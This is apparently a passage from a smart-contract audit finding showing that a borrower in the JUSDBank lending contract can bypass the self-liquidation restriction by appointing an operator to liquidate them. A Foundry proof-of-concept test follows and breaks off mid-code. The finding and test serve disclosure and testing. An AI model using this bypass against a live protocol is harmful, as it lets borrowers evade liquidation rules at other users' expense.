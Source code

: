 The problem is that the liquidated address can assign an operator, then the operator can liquidate on behalf the liquidated address.

I created the next test:

1. Alice deposit 10e18 mockToken1 and borrow 742e6 JUSD
2. Alice can be liquidated because the collateral price is updated
3. Alice tries to liquidate herself but the transaction is reverted by "SELF_LIQUIDATION_NOT_ALLOWED"
4. Alice assigns the operator "Jim".
5. Now Jim can liquidate Alice causing to Alice to get the collateral USDC. This bypass the restriction "SELF_LIQUIDATION_NOT_ALLOWED"

```solidity
File: JUSDBankLiquidateCollateral.t.sol
200:     function testSelfLiquidationViaOperator() public {
201:         // Self liquidation via the client's assigned operator
202:         // 1. Alice deposit 10e18 mockToken1 and borrow 742e6 JUSD
203:         // 2. Alice can be liquidated because the collateral price is updated
204:         // 3. Alice tries to liquidate herself but the transaction is reverted by "SELF_LIQUIDATION_NOT_ALLOWED"
205:         // 4. Alice assigns the operator "Jim".
206:         // 5. Now Jim can liquidate Alice causing to Alice to get the collateral USDC. This bypass the restriction "SELF_LIQUIDATION_NOT_ALLOWED"
207:         //
208:         // 1. Alice deposit 10e18 mockToken1 and borrow 742e6 JUSD
209:         //
210:         mockToken1.transfer(alice, 10e18);
211:         vm.startPrank(alice);
212:         mockToken1.approve(address(jusdBank), 10e18);
213:         jusdBank.deposit(alice, address(mockToken1), 10e18, alice);
214:         jusdBank.borrow(7426e6, alice, false);
215:         vm.stopPrank();
216:         //
217:         // 2. Alice can be liquidated because the collateral price is updated
218:         //
219:         MockChainLink900 eth900 = new MockChainLink900();
220:         JOJOOracleAdaptor jojoOracle900 = new JOJOOracleAdaptor(
221:             address(eth900),//source
222:             20,//decimal correction
223:             86400,//heartBeat
224:             address(usdcPrice)//USDSource
225:         );
226:         jusdBank.updateOracle(address(mockToken1), address(jojoOracle900));
227:         swapContract.addTokenPrice(address(mockToken1), address(jojoOracle900));
228:         FlashLoanLiquidate flashLoanLiquidate = new FlashLoanLiquidate(
229:             address(jusdBank),
230:             address(jusdExchange),
231:             address(USDC),
232:             address(jusd),
233:             insurance
234:         );
235:         bytes memory data = swapContract.getSwapData(
236:             10e18,
237:             address(mockToken1)
238:         );
239:         bytes memory param = abi.encode(
240:             swapContract,//approveTarget
241:             swapContract,//swapTarget
242:             address(alice),//liquidator
243:             data//data
244:         );
245:         vm.startPrank(alice);
246:         bytes memory afterParam = abi.encode(
247:             address(flashLoanLiquidate),
```